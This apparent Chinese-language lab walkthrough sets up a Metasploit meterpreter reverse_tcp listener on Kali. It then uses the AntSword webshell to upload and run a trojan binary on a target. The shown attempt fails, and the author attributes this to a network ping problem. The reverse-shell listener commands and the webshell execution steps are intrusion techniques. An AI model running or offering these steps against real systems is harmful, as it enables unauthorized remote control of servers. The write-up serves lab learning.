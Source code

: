 ```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.96
set LPORT 4444
exploit
```

# 用蚁剑上传木马文件

![image-20220111122634555](https://gitee.com/xxb667/img/raw/master/img/image-20220111122634555.png)

## 用kali进行监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.96
set LPORT 4444
exploit
```

![image-20220111122831668](https://gitee.com/xxb667/img/raw/master/img/image-20220111122831668.png)

### 用中国蚁剑运行程序

- 连接成功后，在空白处右键

- 选择在【在此处打开终端】进入终端

- 然后运行自己上传的木马文件

  

```
chmod +x ./11 #赋予执行权限
./11 #运行程序
```

![image-20220111123008163](https://gitee.com/xxb667/img/raw/master/img/image-20220111123008163.png)

## 返回kali

返回kali进行查看，发现并未渗透成功



![image-20220111123802054](https://gitee.com/xxb667/img/raw/master/img/image-20220111123802054.png)

### 原因

我们打开cmd界面进行ping时，发现Ping不同
